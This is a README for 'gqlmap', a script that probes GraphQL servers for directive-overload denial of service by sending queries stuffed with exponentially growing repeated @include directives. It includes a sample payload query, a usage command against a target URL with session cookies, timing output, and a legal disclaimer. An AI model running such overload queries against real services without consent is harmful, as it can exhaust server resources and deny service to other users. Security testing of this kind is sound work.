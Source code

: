 # gqlmap
This script is used to test if a GraphQL engine is vulnerable to Directive Overloads by exponentially adding directives to GraphQL queries, and then plotting the data on a simple bar chart.  
  
Directive overloading occurs when an attacker leverages a large number of directives in a query to overwhelm the server's processing capabilities. Directives are used to modify the behaviour of queries.  

Queries designed to overload the GraphQL engine with excessive directives may lead to a denial-of-service of the entire GraphQL engine, as well as resource exhaustion where a significant amount of computational resources are used to parse and validate the non-existent directives, which can result in memory exhaustion or CPU spikes.  
  
If the GraphQL endpoint does not either:  
- limit directives
- filter on requests with excessive body-size
- utilize execution timeouts  

you should see the response time continously increase with the number of directives.  
> [!NOTE]  
> The script will end if the web app took longer than 60s to respond.  
> The script only supports POST requests and formats each query as JSON within the request body.

> {"query": "query overload {__typename @include(if:true) @include(if:true) @include(if:true)}"}


## Requirements  
cloudscraper  
plotext (optional if not plotting data into bar chart)
```
pip install cloudscraper, plotext
```

## Usage
```
python3 directive_overload.py --url https://{WEBAPP}.com/gql/v2 --cookies 'session=abc123; extra=123abc' --plot-data True
```
```
Overload Count: 6 - Response Time (ms): 401.748
Overload Count: 12 - Response Time (ms): 443.837
Overload Count: 24 - Response Time (ms): 386.138
Overload Count: 48 - Response Time (ms): 417.026
Overload Count: 96 - Response Time (ms): 458.553
Overload Count: 192 - Response Time (ms): 576.506
Overload Count: 384 - Response Time (ms): 467.536
Overload Count: 768 - Response Time (ms): 559.919
Overload Count: 1536 - Response Time (ms): 610.653
Overload Count: 3072 - Response Time (ms): 839.994
Overload Count: 6144 - Response Time (ms): 1451.719
Overload Count: 12288 - Response Time (ms): 2055.501
Overload Count: 24576 - Response Time (ms): 3778.69
Overload Count: 49152 - Response Time (ms): 6874.083
Overload Count: 98304 - Response Time (ms): 14294.663
```
<img width="941" height="341" alt="Image" src="https://github.com/user-attachments/assets/063a7413-ec03-423a-b11a-b438eef6aa7e" />



> [!CAUTION]
> Attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.  
